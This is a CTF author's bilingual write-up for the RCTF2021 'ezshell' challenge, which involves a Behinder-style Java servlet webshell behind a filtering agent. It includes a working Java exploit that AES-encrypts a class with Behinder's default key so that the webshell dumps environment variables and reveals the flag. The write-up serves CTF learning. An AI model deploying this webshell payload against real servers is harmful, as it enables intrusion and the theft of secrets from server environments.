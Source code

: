 ```yaml
---
title: RCTF2021_misc_ezshell_出题人wp
categories: CTF
comments: true
photos: https://cdn.jsdelivr.net/gh/pipimi110/CDN@1.1/img/bg/bh3/bh3_01.png
---
```


docker

https://github.com/pipimi110/myctf/tree/main/misc/rctf2021_ezshell

## 预期解

http://124.70.137.88:60080/xxx tomcat 404报错

/index.html 跳转 /shell 可以直接下载 ROOT.war

发现有个根据冰蝎 shell.jsp 实现的 servlet shell，根据题目描述，过滤了内存马、命令执行，且限制出网，所以考虑实现回显

根据提示，查看冰蝎 BasicInfo 源码，发现其功能为输出环境变量和系统属性，Exp 尝试直接输出环境变量就看到 flag 了

**补充**

其实这道题主要方向是冰蝎密钥交互写死 getOutputStream 和题目 Servlet 里的 getWriter 冲突

如果有的师傅手上有修改后支持连接内存马的冰蝎，修改对应函数名为 Servlet 中的 'e' 后，应该也是连不上的: )

payload/java/Echo

```
Object so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
```

支持内存马连接和函数冲突解决的冰蝎的一个demo

https://github.com/pipimi110/Behinder_ezshell

ezshell中使用的agent

https://github.com/pipimi110/javaAgentLearn

## Expected solution

http://124.70.137.88:60080/xxx tomcat 404  error

**/index.html** jump to **/shell** to download **ROOT.war**

found a servlet shell based on shell.jsp of the Behinder ,according to the desc, There is an agent to filter memshell and ProcessImpl, and The Outbound traffic is closed, so just Echo

According to the hint, read the source code of the Behinder BasicInfo, and find that its function is to output environment variables and system properties, then try to directly output environment variables and see flag :)

**Additions**

In fact, the main direction of this question is the conflict between the **getOutputStream** used in the Behinder key interaction  and the **getWriter** in the Servlet

If some ctfers have a modified Behinder that supports connecting to memshell, they should not be able to connect even after modifying the corresponding function name to 'e' in the Servlet: )

payload/java/Echo

```
Object so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
```

A demo of Behinder that supports memshell connection and function conflict resolution

https://github.com/pipimi110/Behinder_ezshell

Agent used in ezshell

https://github.com/pipimi110/javaAgentLearn

## Exp

```
import javassist.ClassPool;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.net.URL;
import java.net.URLConnection;
import java.util.*;

public class demo {
    public boolean e(Object obj1, Object obj2) {
        solve((HttpServletResponse) obj2);
        return false;
    }

    public void solve(HttpServletResponse obj2) {
        try {
            obj2.getWriter().write("demo success");
            obj2.getWriter().write(getSysEnv());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
//        getSysEnv();
        getpayload();
    }

    public static String getSysEnv() throws Exception {
        StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
        Map<String, String> env = System.getenv();
        Iterator var5 = env.keySet().iterator();

        while (var5.hasNext()) {
            String name = (String) var5.next();
            basicInfo.append(name + "=" + (String) env.get(name) + "<br/>");
        }
        return (basicInfo.toString());
    }

    public static void getpayload() throws Exception {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        Cipher c = Cipher.getInstance("AES");
        c.init(1, new SecretKeySpec(k.getBytes(), "AES"));

        byte[] bytes = ClassPool.getDefault().get("demo").toBytecode();
        bytes = c.doFinal(bytes);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
    }

}

class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}
```

